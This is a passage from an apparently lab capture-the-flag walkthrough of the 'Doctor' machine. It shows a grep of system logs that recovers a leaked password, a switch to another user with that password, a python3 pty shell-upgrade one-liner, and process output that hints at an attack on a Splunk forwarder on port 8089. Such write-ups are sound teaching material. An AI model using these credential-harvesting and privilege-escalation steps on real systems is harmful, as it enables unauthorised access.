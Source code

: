 We can see a password of `Guitar123` for shaun.

```
web@doctor:/var/log$ grep -R -e 'password' /var/log/
grep -R -e 'password' /var/log/                                               
grep: /var/log/boot.log.2: Permission denied          
/var/log/auth.log:Mar 22 18:15:44 doctor VGAuth[664]: vmtoolsd: Username and password successfully validated for 'root'.
/var/log/auth.log:Mar 22 18:15:44 doctor VGAuth[664]: vmtoolsd: Username and password successfully validated for 'root'.
/var/log/auth.log:Mar 22 18:15:49 doctor VGAuth[664]: vmtoolsd: Username and password successfully validated for 'root'.
/var/log/auth.log:Mar 22 18:15:50 doctor VGAuth[664]: vmtoolsd: Username and password successfully validated for 'root'.
/var/log/auth.log:Mar 22 18:15:51 doctor VGAuth[664]: vmtoolsd: Username and password successfully validated for 'root'.
/var/log/auth.log:Mar 22 18:15:59 doctor VGAuth[664]: message repeated 18 times: [ vmtoolsd: Username and password successfully validated for 'root'.]
grep: /var/log/boot.log.4: Permission denied             
grep: /var/log/speech-dispatcher: Permission denied
grep: /var/log/vmware-network.4.log: Permission denied
/var/log/auth.log.1:Sep 22 13:01:23 doctor sshd[1704]: Failed password for invalid user shaun from 10.10.14.2 port 40896 ssh2
/var/log/auth.log.1:Sep 22 13:01:28 doctor sshd[1704]: Failed password for invalid user shaun from 10.10.14.2 port 40896 ssh2
/var/log/auth.log.1:Mar 22 18:15:44 doctor VGAuth[664]: vmtoolsd: Username and password successfully validated for 'root'.
grep: /var/log/vmware-network.9.log: Permission denied
grep: /var/log/vmware-network.1.log: Permission denied
/var/log/apache2/backup:10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"
```

We can now switch to the shaun user and upgrade the shell using python3

```
web@doctor:/var/log$ su shaun   
su shaun    
Password: Guitar123  

whoami                                 
shaun 

python3 -c 'import pty; pty.spawn("/bin/bash")'
shaun@doctor:/var/log$ 
```

# Root

Back when we did the nmap scan port 8089 was open. Lets dig into what it is doing a little bit more. Looks like this is a splunk forwarder.

```
shaun@doctor:/var/log$ ps -aux | grep splunk
ps -aux | grep splunk
root        1134  0.0  2.3 265920 93340 ?        Sl   18:15   0:06 splunkd -p 8089 start
root        1136  0.0  0.3  77664 15736 ?        Ss   18:15   0:00 [splunkd pid=1134] splunkd -p 8089 start [process-runner]
root        2310  0.0  0.0   2608   604 ?        S    19:42   0:00 /bin/sh /opt/splunkforwarder/etc/apps/_PWN_APP_/bin/pwn.bat
shaun       2459  0.0  0.0  17668   732 pts/0    S+   20:35   0:00 grep --color=auto splunk
```
